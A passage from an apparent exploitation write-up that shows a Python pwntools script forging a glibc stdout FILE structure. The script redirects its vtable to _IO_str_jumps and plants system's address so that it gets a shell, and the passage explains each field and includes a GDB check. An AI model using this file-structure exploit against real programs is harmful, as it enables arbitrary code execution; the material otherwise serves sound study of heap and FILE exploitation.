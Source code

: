 ```python
fake += p16(0) # _cur_column
fake += p8(0) # _vtable_offset
fake += b'\n' # _shortbuf
fake += p32(0) # padding between shortbuf and _lock
fake += p64(stdfile_lock) # _lock
fake += p64(0xffffffffffffffff) # _offset
fake += p64(0) # _codecvt
fake += p64(wide_data) # _wide_data
fake += p64(0) # _freeres_list
fake += p64(0) #_freeres_buf
fake += p64(0) #__pad5
fake += p32(0xffffffff) # _mode
fake += b'\0'*20 # _unused2
fake += p64(io_str_jumps) # vtable // ## [ 4 ]
fake += p64(system) # _s._allocate_buffer // ## [ 5 ]
fake += p64(stdout) # _s._free_buffer

p.sendline(fake)

p.interactive()
```

The exploit has done all of the things I mentioned above.

At `[ 1 ]`, I ensure to set `_IO_write_ptr` to `(addrof(bin_sh) - 100) // 2` (we have to use the `//` operator to get an integer, as `p64` fails to work otherwise).

At `[ 2 ]`, I ensure to set both `_IO_write_base` and `_IO_buf_base` to 0. This causes that `pos = fp->_IO_write_ptr - fp->_IO_write_base` calculation to just return `_IO_write_ptr`.

At `[ 3 ]`, I ensure to set `_IO_buf_end` to the same value as `_IO_write_ptr`. This causes the `_IO_blen (fp)` call to return the same value as `_IO_buf_end` (since `_IO_buf_base` is set to 0), which is in turn the same as `_IO_write_ptr`. This causes the `pos >= _IO_blen (fp)` check to pass, which gets the program to call `(fp->_s._allocate_buffer)(new_size)`. Remember that `new_size` will be calculated to be the address of `"/bin/sh"` in libc.

All the other fields are simply set to what they were originally. This is where the `wide_data` and `stdfile_lock` pointers that we leaked come into play. We ensure that they remain unmodified so that the `stdout` file structure actually works. You can simply view the `stdout` file structure while its unmodified to record its state, and ensure that everything stays the same here.

Once we get to the `vtable` pointer, we overwrite it with `_IO_str_jumps` as explained previously. We then set `_s._allocate_buffer` to `system`'s address, and ensure that `_s._free_buffer` remains unmodified (it was previously set to the address of `stdout`.

We can check these pointers by doing the following in GDB:

```
gef➤  p *(_IO_strfile *) &_IO_2_1_stdout_
$1 = {
  _sbf = {
    _f = {
        // ## [ ... ]
    },
    vtable = 0x7f64daf872a0 <__GI__IO_file_jumps>
  },
  _s = {
    _allocate_buffer = 0x7f64daf8b680 <_IO_2_1_stderr_>,
    _free_buffer = 0x7f64daf8b760 <_IO_2_1_stdout_>
  }
}
```
